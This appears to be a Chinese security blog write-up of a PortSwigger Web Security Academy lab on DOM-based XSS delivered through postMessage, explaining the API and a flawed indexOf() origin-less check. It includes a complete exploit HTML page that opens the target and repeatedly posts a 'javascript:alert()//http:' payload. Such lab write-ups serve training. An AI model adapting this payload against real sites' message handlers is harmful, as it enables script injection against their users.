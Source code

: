 #  《DOM型XSS漏洞之postMessage触发》   
原创 柠檬赏金  柠檬赏金猎人   2025-03-04 10:00  
  
   
  
### 介绍  
  
由 Web 消息传递触发的DOM型XSS。  
#### postMessage() 方法  
#### 定义和用法  
  
postMessage()  
 方法用于安全地实现跨源通信。  
#### 语法  
```
otherWindow.postMessage(message, targetOrigin, [transfer]);
```  
#### 参数说明  
  
<table><thead><tr style="box-sizing: border-box;border-width: 0px;border-style: solid;border-color: hsl(var(--border));"><td style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 14px;padding: 0.25em 0.5em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">参数</span></section></td><td style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 14px;padding: 0.25em 0.5em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">说明</span></section></td></tr></thead><tbody><tr style="box-sizing: border-box;border-width: 0px;border-style: solid;border-color: hsl(var(--border));"><td style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 14px;padding: 0.25em 0.5em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">otherWindow</span></section></td><td style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 14px;padding: 0.25em 0.5em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">其他窗口的一个引用，比如 </span><code style="box-sizing: border-box;border-width: 0px;border-style: solid;border-color: hsl(var(--border));font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-feature-settings: normal;font-variation-settings: normal;font-size: 12.6px;text-align: left;line-height: 1.75;color: rgb(221, 17, 68);background: rgba(27, 31, 35, 0.05);padding: 3px 5px;border-radius: 4px;"><span leaf="">iframe</span></code><span leaf=""> 的 </span><code style="box-sizing: border-box;border-width: 0px;border-style: solid;border-color: hsl(var(--border));font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-feature-settings: normal;font-variation-settings: normal;font-size: 12.6px;text-align: left;line-height: 1.75;color: rgb(221, 17, 68);background: rgba(27, 31, 35, 0.05);padding: 3px 5px;border-radius: 4px;"><span leaf="">contentWindow</span></code><span leaf=""> 属性、执行 </span><code style="box-sizing: border-box;border-width: 0px;border-style: solid;border-color: hsl(var(--border));font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-feature-settings: normal;font-variation-settings: normal;font-size: 12.6px;text-align: left;line-height: 1.75;color: rgb(221, 17, 68);background: rgba(27, 31, 35, 0.05);padding: 3px 5px;border-radius: 4px;"><span leaf="">window.open</span></code><span leaf=""> 返回的窗口对象、或者是命名过或数值索引的 </span><code style="box-sizing: border-box;border-width: 0px;border-style: solid;border-color: hsl(var(--border));font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-feature-settings: normal;font-variation-settings: normal;font-size: 12.6px;text-align: left;line-height: 1.75;color: rgb(221, 17, 68);background: rgba(27, 31, 35, 0.05);padding: 3px 5px;border-radius: 4px;"><span leaf="">window.frames</span></code><span leaf="">。</span></section></td></tr><tr style="box-sizing: border-box;border-width: 0px;border-style: solid;border-color: hsl(var(--border));"><td style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 14px;padding: 0.25em 0.5em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">message</span></section></td><td style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 14px;padding: 0.25em 0.5em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">将要发送到其他窗口的数据。</span></section></td></tr><tr style="box-sizing: border-box;border-width: 0px;border-style: solid;border-color: hsl(var(--border));"><td style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 14px;padding: 0.25em 0.5em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">targetOrigin</span></section></td><td style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 14px;padding: 0.25em 0.5em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">指定哪些窗口能接收到消息事件，其值可以是 </span><code style="box-sizing: border-box;border-width: 0px;border-style: solid;border-color: hsl(var(--border));font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-feature-settings: normal;font-variation-settings: normal;font-size: 12.6px;text-align: left;line-height: 1.75;color: rgb(221, 17, 68);background: rgba(27, 31, 35, 0.05);padding: 3px 5px;border-radius: 4px;"><span leaf="">*</span></code><span leaf="">（表示无限制）或者一个 URI。</span></section></td></tr><tr style="box-sizing: border-box;border-width: 0px;border-style: solid;border-color: hsl(var(--border));"><td style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 14px;padding: 0.25em 0.5em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">transfer</span></section></td><td style="box-sizing: border-box;border: 1px solid rgb(223, 223, 223);text-align: left;line-height: 1.75;font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 14px;padding: 0.25em 0.5em;color: rgb(63, 63, 63);word-break: keep-all;"><section><span leaf="">可选，是一串和 </span><code style="box-sizing: border-box;border-width: 0px;border-style: solid;border-color: hsl(var(--border));font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-feature-settings: normal;font-variation-settings: normal;font-size: 12.6px;text-align: left;line-height: 1.75;color: rgb(221, 17, 68);background: rgba(27, 31, 35, 0.05);padding: 3px 5px;border-radius: 4px;"><span leaf="">message</span></code><span leaf=""> 同时传递的 </span><code style="box-sizing: border-box;border-width: 0px;border-style: solid;border-color: hsl(var(--border));font-family: -apple-system-font, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-feature-settings: normal;font-variation-settings: normal;font-size: 12.6px;text-align: left;line-height: 1.75;color: rgb(221, 17, 68);background: rgba(27, 31, 35, 0.05);padding: 3px 5px;border-radius: 4px;"><span leaf="">Transferable</span></code><span leaf=""> 对象。这些对象的所有权将被转移给消息的接收方，而发送一方将不再保有所有权。</span></section></td></tr></tbody></table>  
### 目标  
  
通过构建一个 HTML 页面利用此漏洞并调用 alert()  
 函数。  
### 步骤  
1. 1. 测试目标  
  
```
https://0a7a009d04adf608812494c4007d0032.web-security-academy.net/
```  
1. 2. 请注意，主页包含一个 addEventListener()  
 监听网络消息的调用。JavaScript 包含一个有缺陷的 indexOf()  
 检查，用于查找网络消息中的字符串是否包含 "http:" 或 "https:" 。它还包含 location.href  
。  
  
1. ![](https://mmbiz.qpic.cn/sz_mmbiz_png/OkRKg4J9smWb9qulk54HANqoD4uyZyYiaX1kk7BpZg8O9dE1wZEWNE2X20rGBqNtOmibicXdiaaIjNfaRcvfIDT9gA/640?wx_fmt=png&from=appmsg "")  
  
  
实战可以查找 addEventListener()  
函数  
1. 3. 构造html页面利用此漏洞：  
  
```
<html>
    <head>
        <title>ostMessage XSS</title>
    </head>
    <body>
        <p>Click this button and submit the form!</p>
        <button id="openH1">Click Here</button>
        <script>
            var h1Win;

            function openWin(){
                h1Win = window.open("https://0a7a009d04adf608812494c4007d0032.web-security-academy.net/");
                setInterval(sendMessage, 250);
            }

            function sendMessage(){
                h1Win.postMessage('javascript:alert()//http:','*');
            }

            document.getElementById("openH1").addEventListener('click', openWin);
        </script>
    </body>
</html>
```  
1. 4. 点击click触发漏洞。  
  
  
  
   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/OkRKg4J9smWb9qulk54HANqoD4uyZyYiazY2XMTmFZia7CdhiajaUUDM8FByzaKlRa77p8jqS4Imktyj5GvjNNZfg/640?wx_fmt=png&from=appmsg "")  
  
   
  
  
   
  
仅限交流学习使用，如您在使用本工具或代码的过程中存在任何非法行为，您需自行  
承担相应后果，我们将不承担任何法律及连带责任。  
“如侵权请私聊公众号删文”。  
  
